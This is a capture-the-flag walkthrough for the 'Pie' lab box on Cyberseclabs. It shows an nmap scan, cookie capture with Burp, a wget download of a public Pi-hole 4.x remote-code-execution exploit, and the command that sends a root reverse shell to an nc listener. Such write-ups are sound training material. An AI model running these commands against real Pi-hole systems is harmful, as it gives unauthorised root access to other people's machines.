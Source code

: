 In this walkthrough, we'll go over a beginner level box called ***Pie*** on [Cyberseclabs.co.uk](https://www.cyberseclabs.co.uk).

![Pie IP](pieIP.png)

Let's start the scanning process with nmap:
```bash
nmap -A -T4 -p- 172.31.1.26
```
![Pie nmap](pienmap.png)

We can see that the port 80 is open. Upon visiting, we can see that "Pi-hole" is installed:
![Pie Hole](piehole.png)

One thing we can notice is that there is a link to the admin portal. When we click on it, it takes us to the admin portal and we see that the version is ***4.3***:
![Pie Admin](pieadmin.png)
![Pie Version](pieversion.png)

A quick Google search reveals the following exploit https://packetstormsecurity.com/files/157624/Pi-hole-4.4-Remote-Code-Execution-Privilege-Escalation.html. However, this exploit requires a valid cookie.
Let's send the request to Burp and grab the cookie:
![Pie Burp](pieBurp.png)

We can download the exploit with `wget https://packetstormsecurity.com/files/download/157624/pihole44-execescalate.txt -O exp.py`. Now, let's start a nc listener and run the exploit as follows `python3 exp.py v0ddvbre7i62naseikne4ni6j1 http://172.31.1.26 10.10.0.18 5555`
![Pie Wget](piewget.png)
![Pie Exp](pieexp.png)

We should receive a shell back as root user:

![Pie Root](pieroot.png)
